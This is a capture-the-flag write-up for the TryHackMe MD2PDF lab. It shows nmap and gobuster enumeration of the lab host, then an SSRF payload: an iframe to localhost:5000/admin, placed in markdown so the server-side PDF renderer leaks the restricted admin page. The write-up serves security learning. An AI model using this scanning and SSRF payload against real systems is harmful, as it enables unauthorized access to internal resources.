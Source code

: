 # MD2PDF

In this challenge we have a website that allow us to convert markdown file to pdf file.
<img src="https://github.com/DJumanto/TryHackMe/blob/main/MD2PDF/page.jpeg?raw=true" alt="main page">

## Reconnaissance
First of all, let's do the enumeration for all open port
```bash
──(djumanto㉿localhost)-[~/Documents/TryHackMeNew/TryHackMe/MD2PDF]
└─$ nmap -sV -sC -oN nmap/initials 10.10.244.196  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-30 13:47 WIB
WARNING: Service 10.10.244.196:80 had already soft-matched rtsp, but now soft-matched sip; ignoring second value
Nmap scan report for 10.10.244.196
Host is up (0.31s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 adc5b4a56539d0199ff2ec595aebc70d (RSA)
|   256 baaa15913ccb83722b9986a652b1e7d2 (ECDSA)
|_  256 756c419f275dda3445b72a7baabeeee6 (ED25519)
80/tcp open  rtsp
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2660
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8" />
|     <meta
|     name="viewport"
|     content="width=device-width, initial-scale=1, shrink-to-fit=no"
|     <link
|     rel="stylesheet"
|     href="./static/codemirror.min.css"/>
|     <link
|     rel="stylesheet"
|     href="./static/bootstrap.min.css"/>
|     <title>MD2PDF</title>
|     </head>
|     <body>
|     <!-- Navigation -->
|     <nav class="navbar navbar-expand-md navbar-dark bg-dark">
|     <div class="container">
|     class="navbar-brand" href="/"><span class="">MD2PDF</span></a>
|     </div>
|     </nav>
|     <!-- Page Content -->
|     <div class="container">
|     <div class="">
|     <div class="card mt-4">
|     <textarea class="form-control" name="md" id="md"></textarea>
|     </div>
|     <div class="mt-3
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     RTSP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|_    Content-Length: 0
```
Well, it seems that we able to access via http and ssh. But since we don't have any information about either username, password, or private key, the next thign i would do is directory brute.
```bash
sudo gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -u http://10.10.24
[sudo] password for djumanto: 
Sorry, try again.
[sudo] password for djumanto: 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.244.196/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              py,ssh,php,html,js
[+] Timeout:                 10s
===============================================================
2023/04/30 13:57:36 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 403) [Size: 166]
/convert              (Status: 405) [Size: 178]
Progress: 39880 / 525990 (7.58%)
``` 

we unable to access the admin page
<img src="https://github.com/DJumanto/TryHackMe/blob/main/MD2PDF/admin.jpg?raw=true" alt="admin page">

And convert is endpoint for converting our markdown file

Tags for this challenge is XSS and SSRF. So what cross into my mind was, what if we able to print the content of **admin** page. Since it was processed on the server, then we will able to access the content of **/admin** using iframe. Let's just get into it.
```html
<iframe src="http://localhost:5000/admin"> </iframe>
```
<img src="https://github.com/DJumanto/TryHackMe/blob/main/MD2PDF/retrieve-admin-trial.jpg?raw=true" alt="trial">

There you go

<img src="https://github.com/DJumanto/TryHackMe/blob/main/MD2PDF/flag.jpg?raw=true" alt="flag">
